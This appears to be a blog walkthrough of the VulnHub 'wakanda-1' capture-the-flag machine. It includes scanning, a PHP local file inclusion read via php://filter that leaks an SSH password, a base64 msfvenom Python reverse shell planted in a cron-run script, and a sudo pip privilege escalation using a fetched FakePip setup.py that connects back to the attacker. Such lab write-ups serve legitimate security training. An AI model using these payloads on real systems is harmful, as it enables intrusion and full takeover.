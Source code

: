 ```yaml
---
layout: post-detail
title: CTF challenge - wakanda
date: 2018-09-24
categories: CTF
description: Walkthrough on wakanda-1 from https://www.vulnhub.com/entry/wakanda-1,251/
img-url: ''
comments: true
---
```


# Download the iso

Image is here:  https://www.vulnhub.com/entry/wakanda-1,251/

# Target

Syn scan.

    $ sudo nmap -sS 192.168.2.0/24

```sh
Nmap scan report for 192.168.2.217
PORT     STATE SERVICE
80/tcp   open  http
111/tcp  open  rpcbind
3333/tcp open  dec-notes
MAC Address: 08:00:27:3C:1E:DB (Oracle VirtualBox virtual NIC)
```

The target contain a web server on port 80.
Now, a scan `tcp` with `Version`.

    $ sudo nmap -sT -sV -A -p- 192.168.2.217

```txt
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Vibranium Market
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          33015/tcp  status
|_  100024  1          41724/udp  status
3333/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
33015/tcp open  status  1 (RPC #100024)
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

A try with netcat:

    $ nc 192.168.2.217 3333
    SSH-2.0-OpenSSH_6.7p1 Debian-5+deb8u4

We found the version of ssh and debian.

A scan with dirb:

    $ dirb http://192.168.2.217 /usr/share/dict/dirb-wordlists/common.txt 

```txt
---- Scanning URL: http://192.168.2.217/ ----
+ http://192.168.2.217/backup (CODE:200|SIZE:0)
+ http://192.168.2.217/index.php (CODE:200|SIZE:1527)
+ http://192.168.2.217/secret (CODE:200|SIZE:0)
+ http://192.168.2.217/server-status (CODE:403|SIZE:301)
+ http://192.168.2.217/shell (CODE:200|SIZE:0)
```

No formular, pages `/backup`, `/secret`, `/shell` are void... `/server-status` need permission... ???

The source code of `/index.php` include a comment who point on a `/?lang=fr` parameter. At bottom, we found the name `mamadou`.

This param is vulnerable to a Local File Inclusion (LFI), according this post on [medium.com](https://medium.com/@Aptive/local-file-inclusion-lfi-web-application-penetration-testing-cc9dc8dd3601) or [securityidiots.com](http://securityidiots.com/Web-Pentest/LFI/guide-to-lfi.html) , i've try many things here.  

The url `?lang=php://filter/convert.base64-encode/resource=index` reveal something.

    $ curl http://192.168.2.217/\?lang\=php://filter/convert.base64-encode/resource\=index -o secret

We purge all html content from the file `secret`, and we will able to decode the content.

    $ cat secret | base64 -d 

```php
<?php
$password ="Niamey4Ever227!!!" ;//I have to remember it

if (isset($_GET['lang']))
{
include($_GET['lang'].".php");
}

?>
```

Try user and pass on ssh:

    $ ssh mamadou@192.168.2.217 -p 3333
    password: Niamey4Ever227!!!
    
```python
>>> help()

Welcome to Python 2.7!  This is the online help utility.
```

Ok... we'll switch on a bash shell.

    >>> import pty;pty.spawn("bash")
    $ uname -a
    $ cd 
    $ cat flag1.txt
    Flag : d86b9ad71ca887f4dd1dac86ba1c4dfc

The second flag is in `/home/devops`.

    $ cat /home/devops/flag2.txt
    cat: /home/devops/flag2.txt: Permission denied

    $ ls -l /home/devops/
    -rw-r----- 1 devops developer 42 Aug  1 15:57 flag2.txt

We need find a way to become `devops` or member of group `developer` for read the key.

    $ find / -user devops 2>/dev/null
    /srv/.antivirus.py
    /tmp/test
    /home/devops
    /home/devops/.bashrc
    /home/devops/.profile
    /home/devops/.bash_logout
    /home/devops/flag2.txt

    $ ls -l /srv/.antivirus.py
    -rw-r--rw- 1 devops developer 36 Aug  1 20:08 /srv/.antivirus.py

Nice, a file where we can write something, like a reverse shell to become `devops:developer`.

    $ msfvenom -p cmd/unix/reverse_python LHOST=192.168.2.111 LPORT=1234 -f raw

```txt
Payload size: 457 bytes
python -c "exec('aW1wb3J0IHNvY2tldCAgLCAgc3VicHJvY2VzcyAgLCAgb3M7ICAgICAgIGhvc3Q9IjE5Mi4xNjguMi4xMTEiOyAgICAgICBwb3J0PTEyMzQ7ICAgICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCAgLCAgc29ja2V0LlNPQ0tfU1RSRUFNKTsgICAgICAgcy5jb25uZWN0KChob3N0ICAsICBwb3J0KSk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMCk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMSk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMik7ICAgICAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ=='.decode('base64'))"
```

Modify the file `/srv/.antivirus.py` like this:

```python
#open('/tmp/test','w').write('test')
exec('aW1wb3J0IHNvY2tldCAgLCAgc3VicHJvY2VzcyAgLCAgb3M7ICAgICAgIGhvc3Q9IjE5Mi4xNjguMi4xMTEiOyAgICAgICBwb3J0PTEyMzQ7ICAgICAgIHM9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCAgLCAgc29ja2V0LlNPQ0tfU1RSRUFNKTsgICAgICAgcy5jb25uZWN0KChob3N0ICAsICBwb3J0KSk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMCk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMSk7ICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgLCAgMik7ICAgICAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ=='.decode('base64'))
```
Open a socket on your machine:

    $ nc -lvp 1234

And the script will start by itself like it use cron.

    $ id 
    uid=1001(devops) gid=1002(developer) groups=1002(developer)
    cat /home/devops/flag2.txt
    Flag 2 : d8ce56398c88e1b4d9e5f83e64c79098

To read the last key, we need permission of `root`, so with sudo or anything.

    sudo -l
    User devops may run the following commands on Wakanda1:
    (ALL) NOPASSWD: /usr/bin/pip

Devops can execute `/usr/bin/pip` without password...

    ls -l /usr/bin/pip
    -rwxr-sr-- 1 root developer 281 Feb 27  2015 /usr/bin/pip

Unfortunately, we can't write on this file to execute a reverse shell.

After googling thoroughly, we can use `fakepip`.  
Download the file from [fakepip](wget https://raw.githubusercontent.com/0x00-0x00/FakePip/master/setup.py)

    $ wget -cv https://raw.githubusercontent.com/0x00-0x00/FakePip/master/setup.py

Edit this file to change the `RHOST` and `lport`.

```python
RHOST = '192.168.2.111'  # change this
lport = 3333
```
Next, we need a find a way to upload our payload. We create a simple server with python, you can use `darkhttpd`, `ngrok` too or upload the file at `https://transfer.sh`.

    $ python2.7 -m SimpleHTTPServer 4444

From the vm, wget -cv http://192.168.0.111:4444/setup.py

Start netcat:

    $ nc -lvp 3333

With ou user `devops`, launch pip:

    $ sudo pip install . --upgrade --force-reinstall

You are root now:

```txt
listening on [any] 3333 ...
192.168.2.217: inverse host lookup failed:
connect to [192.168.2.111] from (UNKNOWN) [192.168.2.217] 57633
root@Wakanda1:/tmp/pip-QVoVOV-build#
```
    cd
    cat root.txt

```txt
 _    _.--.____.--._
( )=.-":;:;:;;':;:;:;"-._
 \\\:;:;:;:;:;;:;::;:;:;:\
  \\\:;:;:;:;:;;:;:;:;:;:;\
   \\\:;::;:;:;:;:;::;:;:;:\
    \\\:;:;:;:;:;;:;::;:;:;:\
     \\\:;::;:;:;:;:;::;:;:;:\
      \\\;;:;:_:--:_:_:--:_;:;\
       \\\_.-"             "-._\
        \\
         \\
          \\
           \\ Wakanda 1 - by @xMagass
            \\
             \\


Congratulations You are Root!

821ae63dbe0c573eff8b69d451fb21bc
```

This vm was very instructive :)
